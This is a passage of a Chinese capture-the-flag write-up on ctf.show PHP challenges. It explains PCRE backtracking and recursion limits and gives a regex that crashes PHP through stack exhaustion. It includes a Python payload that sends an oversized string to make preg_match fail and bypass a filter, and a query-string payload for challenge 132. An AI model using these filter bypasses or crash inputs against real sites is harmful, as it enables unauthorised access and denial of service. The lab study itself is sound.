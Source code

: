 ```
int preg_last_error ( void )Returns the error code of the last PCRE regex execution.
```

我们应该经常检查这个函数的返回值, 当不为零的时候说明上一个正则函数出错, 特别的对于文章的例子, 出错返回(PREG_BACKTRACK_LIMIT_ERROR)
最后, 在顺便说一句, 非贪婪模式导致太多回溯, 必然会有一些性能问题, 适当的该写下正则, 是可以避免这个问题的. 比如将文章开头例子中的正则修改为:

```
/<script>[^<]*<\/script>/is
```

就不会导致这么多的回溯了~
而recursion_limit限制了最大的正则嵌套层数, 如果这个值, 设置的太大, 可能会造成耗尽栈空间爆栈. 默认的100000似乎有点太大了...
就比如对于一个长度为10000的字符串, 如下这个看似"简"的单正则:

```
//默认recursion_limit为100000$reg = /(.+?)+/is;$str = str_pad("laruence", 10000, "a"); //长度为1万$ret = preg_repalce($reg, "", $str);
```

会导致core, 这是因为嵌套太多, 导致爆栈.
当然, 你可以通过修改栈的大小来暂时的解决这个问题, 比如修改栈空间为20M以后, 上面的代码就能正常运行, 但这肯定不是最完美的解法. 根本之道, 还是优化正则.
最后: **正则虽易, 用好却难.**. 尤其在做大数据量的文本处理的时候, 如果正则设计不慎, 很容易导致深度嵌套, 另外考虑到性能, 还是建议能用字符串处理尽量使用字符串处理代替.

> str_repeat() 函数把字符串重复指定的次数。
>
> 把字符串 "." 重复 13 次：
>
> <?php
> echo str_repeat(".",13);
> ?>

payload

```python
import requests


url="http://17e66580-d7b0-4cf7-a5c7-635cc75c05a4.challenge.ctf.show/"

data={
	'f':'kradress'*130000+'36Dctfshow'
}

res=requests.post(url,data=data)

print(res.text)
```

# 132 || &&

语义和java的||&&一样

payload:?username=admin&password=2&code=admin

# 133 [\`\$F`的骚操作](https://blog.csdn.net/qq_46091464/article/details/109095382)
